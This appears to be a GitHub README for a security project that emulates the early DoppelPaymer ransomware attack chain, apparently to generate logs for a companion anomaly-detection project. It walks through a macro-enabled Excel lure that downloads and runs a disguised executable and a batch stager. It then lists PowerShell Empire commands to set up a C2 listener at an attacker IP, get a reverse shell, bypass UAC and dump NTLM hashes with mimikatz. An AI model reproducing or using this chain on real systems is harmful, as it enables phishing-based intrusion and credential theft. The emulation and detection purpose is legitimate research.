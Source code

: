 # Attack Emulation of the Fore Part of Doppelpaymer Attack Chain
## Second Part of this Project
* https://github.com/chieh0613/Log-based-Anomaly-Detection-and-Tracing-back-to-Phishing-Emails

## Introduction
    An APT attack consists of various tactics, including initial access, credential access, and command and control.
    DoppelPaymer is a ransomware that have launched their attacks since 2019, threatening victims after stealing their files.
    We try to reproduce the attack scenario based on the fore part of Doppelpaymer attack chain.

## Victim's OS and requiremnts
* Edition: Windows 10 Home
* Version: 2004
* Microsoft Office
* 7-zip/WinRAR
* Windows Defender disabled

## Attacker's OS and requirements
* Kali Linux
* Empire


## Unzip
    In the folder unzip, we try to generate an executable file "unzip.exe" to extract file from "launcher.zip" with the password "123".
* Type "python run.py" to generate the file "unzip.exe".
* Requirements:
  * python==3.8.8
  * pyinstaller==4.3 

## Unzip.txt
    Because we cannot download the executable file directly, we change the file extension from .exe to .txt.
    After the modication, we can use macro to download the file directly by a given link.

## launcher.zip
    Contains the file "launcher.bat" with the password "123". 
    After executing the file "launcher.bat", the victim will connect to the empire server.

## project.xlsm
    It is a macro enabled excel document.
    The followings are what it will do:
   * Download the file "launcher.zip" to %temp% folder
   * Download the file "unzip.exe" to %temp% folder
   * Execute the file "unzip.exe" to get the file "launcher.bat"
   * Execute the file "launcher.bat" to connect to the empire server

## project.zip
    Contains project.xlsm with password '123'. 

## Empire Commands
* Generate the file "launcher.bat" to let the victim connect to the empire server:
    1. Use "uselistener http" to generate listener
      * set Name http
      * set Host 192.168.2.30 (attacker's ip)
      * set Port 8080
      * execute
    2. Use "usestager windows/launcher_bat" to generate the file "launcher.bat"
      * set Listener http
      * execute

* After the victim connects to the empire server, run the following commands:
    1. type "agents" to find the value of victim's Name (<victim_Name>)
    2. type "interact <victim_Name>"
    3. Reverse shell
      * shell tasklist
      * shell netstat
      * shell ipconfig
    4. Use "usemodule privesec/bypassuac" to get administrator privilege
      * set Listener http
      * execute
    5. Use "usemodule credentials/mimikatz/logonpasswords*" to get the victim's NTLM hash
      * execute

# Reference
* https://github.com/mishmashclone/BC-SECURITY-Empire
* https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/
* https://ethicalhackingguru.com/how-to-use-powershell-empire-3-the-powershell-empire-3-tutorial/
* https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf
* https://stackoverflow.com/questions/6934169/how-to-show-current-user-name-in-a-cell
* https://vblocalhost.com/uploads/VB2020-61.pdf
* https://github.com/DarkSecDevelopers/shellpy.git

